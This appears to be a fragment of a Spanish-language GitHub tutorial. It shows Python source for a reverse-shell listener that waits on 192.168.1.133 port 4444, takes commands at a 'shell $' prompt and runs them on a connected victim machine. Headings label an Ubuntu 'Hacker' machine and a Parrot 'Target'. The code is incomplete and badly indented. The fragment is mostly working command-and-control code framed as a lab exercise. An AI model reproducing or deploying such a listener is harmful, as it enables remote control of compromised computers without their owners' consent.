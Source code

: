 ```bash

print("[+] Esperando por conexiones") 

self.connection,addres = listener.accept() 

print("[+] Tenemos una conexion de {}".format(addres)) 

result = self.connection.recv(1024) 

print(result.decode("utf-8")) 

 
 

def ejecutar_remoto(self,comando): 

self.connection.send(comando.encode()) 

return self.connection.recv(1024).decode("utf-8") 

 

    def run(self): 

 while True: 

       comando = input("shell $ ") 

       resultado = self.ejecutar_remoto(comando) 

                  print("\n" + resultado) 

 
 

escuchar = Listener("192.168.1.133",4444) 

 

escuchar.run() 
```

# Ubuntu (Hacker)

![mejora de listener ubuntu](https://user-images.githubusercontent.com/97669969/157429579-137d26d8-1d98-487f-9fd5-f81a7be5e82d.png)


# Parrot (Target) 

